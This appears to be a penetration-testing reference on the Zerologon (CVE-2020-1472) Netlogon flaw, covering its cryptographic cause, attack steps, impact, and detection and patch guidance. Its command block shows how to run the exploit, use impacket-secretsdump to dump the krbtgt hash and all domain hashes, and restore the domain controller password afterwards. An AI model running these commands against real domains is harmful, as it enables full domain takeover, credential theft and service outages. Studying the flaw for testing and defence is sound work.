

# Zerologon

### Affected object / protocol
**Netlogon (MS-NRPC)** machine-account authentication on a **Domain Controller**. The vulnerable target is the DC’s **machine account password** (`msDS-MachineAccountQuota` irrelevant here; the affected object is the DC computer object’s credential). The cryptographic primitive is AES-CFB8 with an **all-zero IV** in the Netlogon secure channel.

### Concept (deep)
Zerologon is not a memory-corruption exploit. It abuses the **NetrServerAuthenticate3** call: the client supplies a challenge, and the server must return a matching credential. Because the AES-CFB8 implementation uses a zero IV and the protocol accepts an all-zero client challenge, an attacker can replay all-zero challenges until the DC accepts an authentication where the computed credential is also all-zero. Statistically this requires roughly **1 in 256 attempts** per authentication round. Once accepted, the attacker is treated as the **DC machine account itself**. Because DC machine accounts hold **`DS-Replication-Get-Changes-All`** by default, the attacker can immediately DCSync every secret in the domain.

The critical operational caveat: the exploit **resets the DC machine account password to empty**. If the original password is not restored, the DC loses its secure channel with other DCs and domain members, which can break replication, authentication, and trust relationships.

### Attack flow (Mermaid)


### Step-by-step mechanics
1. **Detect safely** — do not exploit first. `zerologon_tester.py` performs a non-destructive check.
2. **Snapshot the DC** (VM snapshot or backup) before any state-changing step.
3. **Exploit** — the PoC resets the machine password to empty.
4. **DCSync** — use the empty machine password to authenticate as `DC$` and request replication.
5. **Extract the original password** — `secretsdump` can dump the hex-encoded original machine password from the registry before you change anything; alternatively use `restorepassword.py` with `-hexpass`.
6. **Restore** — use the exploit’s restore script, `netdom resetpwd`, or `Reset-ComputerMachinePassword` if you have admin access.
7. **Verify** — re-run the detection check and confirm Netlogon secure channel is healthy.

### Exhaustive commands
```bash
# ── Detection only (safe) ─────────────────────────────────────────────
python3 zerologon_tester.py DC01 10.10.10.5
nxc smb 10.10.10.5 -M zerologon

# ── Snapshot (outside AD, on hypervisor) ──────────────────────────────
# Take a VM snapshot or backup before proceeding.

# ── Exploit (state-changing) ──────────────────────────────────────────
python3 cve-2020-1472-exploit.py DC01 10.10.10.5
# The DC machine account password is now empty.

# ── DCSync as the DC machine account ──────────────────────────────────
impacket-secretsdump -no-pass -just-dc 'corp.local/DC01$'@10.10.10.5
impacket-secretsdump -no-pass -just-dc-user krbtgt 'corp.local/DC01$'@10.10.10.5

# ── Extract the original machine password (hex) ───────────────────────
# secretsdump will print the hex machine password from registry.
# Save the hex value before restoring.

# ── Restore (critical) ────────────────────────────────────────────────
python3 restorepassword.py corp.local/DC01@DC01 -target-ip 10.10.10.5 -hexpass <hex>
# Alternative: on the DC as Administrator:
netdom resetpwd /server:DC01 /userd:CORP\Administrator /passwordd:*
# Alternative PowerShell (admin):
Reset-ComputerMachinePassword

# ── Verify restoration ────────────────────────────────────────────────
python3 zerologon_tester.py DC01 10.10.10.5
nxc smb 10.10.10.5 -M zerologon
```

### Impact
- **Full domain compromise**: krbtgt hash → Golden Tickets; all user hashes → Pass-the-Hash.
- **Denial of service risk**: if the machine password is not restored, the DC can lose its secure channel, breaking replication and authentication.
- **Trust damage**: domain trusts can fail if the DC cannot authenticate to other DCs.

### Detection and defensive measures
- **Patch** KB4571756 (August 2020) and enforce **Netlogon secure channel** (`FullSecureChannelProtection=1`).
- **Monitor** Netlogon events **5807/5827/5828** (vulnerable secure channel), **4742** (machine account password change) on a DC outside maintenance windows, and **4662** replication from a non-DC identity.
- **Segment** DRSUAPI RPC so replication occurs only DC-to-DC.
- **Honeytoken DC** in a lab to catch unauthenticated Netlogon probing.

---
